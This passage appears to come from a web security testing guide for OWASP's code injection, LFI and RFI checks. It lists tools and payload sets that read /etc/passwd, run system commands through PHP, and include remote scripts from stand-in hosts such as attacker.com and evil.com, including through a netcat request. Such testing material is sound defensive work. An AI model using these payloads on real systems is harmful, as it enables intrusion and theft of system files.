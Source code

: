       curl -i "http://example.com/page?file=../../etc/passwd"
      # HTTPie
      http "http://example.com/page?file==../../etc/passwd"
      ```

- **Postman**: GUI tool for testing injection in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to injection payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Elements tab for file or code output.
  - **Note**: Firefox’s 2025 network analysis improvements enhance response inspection.

- **Netcat (nc)**: Tests server responses for RFI or code execution.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "GET /page?file=http://attacker.com/malicious.php HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-011, testing Code Injection, LFI, and RFI vulnerabilities across input vectors, code injection, LFI, RFI, path traversal, log file poisoning, and wrapper protocol abuse.

### Common Code Injection, LFI, and RFI Payloads

Below is a list of common payloads to test for Code Injection, LFI, and RFI vulnerabilities. Start with simple payloads and escalate based on responses. Use with caution in controlled environments to avoid unintended consequences.

- **Code Injection Payloads**:
  - `<?php phpinfo(); ?>` (Executes PHP code)
  - `system('whoami');` (Runs system command)
  - `eval('print("test");');` (Evaluates PHP code)
  - `;id` (Appends command in input)

- **LFI Payloads**:
  - `../../etc/passwd` (Accesses local file)
  - `/etc/passwd` (Direct file path)
  - `....//....//etc/passwd` (Bypasses filters)
  - `%2e%2e%2fetc%2fpasswd` (URL-encoded)

- **RFI Payloads**:
  - `http://attacker.com/malicious.php` (Includes remote script)
  - `https://evil.com/shell.txt` (Includes remote file)
  - `ftp://attacker.com/script.php` (Alternative protocol)
  - `http://attacker.com/malicious.php%00` (Null byte bypass)
